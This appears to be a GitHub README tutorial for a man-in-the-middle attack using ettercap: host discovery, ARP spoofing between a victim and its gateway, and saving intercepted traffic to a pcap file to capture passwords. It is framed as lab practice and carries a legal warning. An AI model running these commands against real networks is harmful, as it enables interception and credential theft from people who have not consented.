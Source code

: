 # ⚠️ MITM Attack with Ettercap (CLI Mode)

> This guide demonstrates how to perform a Man-in-the-Middle (MITM) attack using `ettercap` in **command-line mode**, for **educational purposes** in a **controlled lab environment**.

---

## 📦 Requirements

- OS: Kali Linux, Parrot OS, or any Linux distro with `ettercap-text-only`
- Tools: Ettercap CLI, Netdiscover or Nmap
- Setup:
  - Attacker: Kali Linux
  - Victim: Any host on the same LAN
  - Gateway: Your router

---

## 📥 Installation

```bash
sudo apt update
sudo apt install ettercap-text-only netdiscover nmap
```

##🌐 Step 1: Identify Network Interface
```bash
ip a
```
Example interface: eth0, wlan0, etc.
##🔍 Step 2: Scan for Hosts
###Option 1: Netdiscover
```bash
sudo netdiscover -i eth0
```
###Option 2: Nmap
```bash
sudo nmap -sn 192.168.0.0/24
```
Note the IPs of:

Victim device → VICTIM_IP

Gateway (router) → GATEWAY_IP

Your interface → INTERFACE

##🧪 Step 3: Perform ARP Spoofing (MITM)
```bash
sudo ettercap -T -M arp:remote /VICTIM_IP/ /GATEWAY_IP/ -i INTERFACE
```
###Example:
```bash
sudo ettercap -T -M arp:remote /192.168.0.105/ /192.168.0.1/ -i eth0
```

### :Flags Explained:

-T: Text (CLI) mode

-M arp:remote: ARP spoofing for both directions

/target1/ /target2/: Victim and Gateway IPs

-i: Interface to use
##🔐 Step 4: Capture Passwords (Optional)
```bash
sudo ettercap -T -M arp:remote -w mitm_log.pcap /VICTIM_IP/ /GATEWAY_IP/ -i INTERFACE
```
###Open the log with Wireshark:

```bash
wireshark mitm_log.pcap
```
##🔚 Step 5: Stop the Attack
To quit Ettercap, press q.

To restore ARP tables manually:
```bash
sudo ettercap -T -P restore_arp -i INTERFACE
```

##⚠️ Legal Warning
This guide is provided for educational and authorized penetration testing only.
Unauthorized access to networks or data is illegal and punishable by law.
Always get written permission before testing any network.

##📌 Author
Created by: [Nahid Chowdury] CSE, DU

For: Ethical Hacking / Cybersecurity Lab Practice



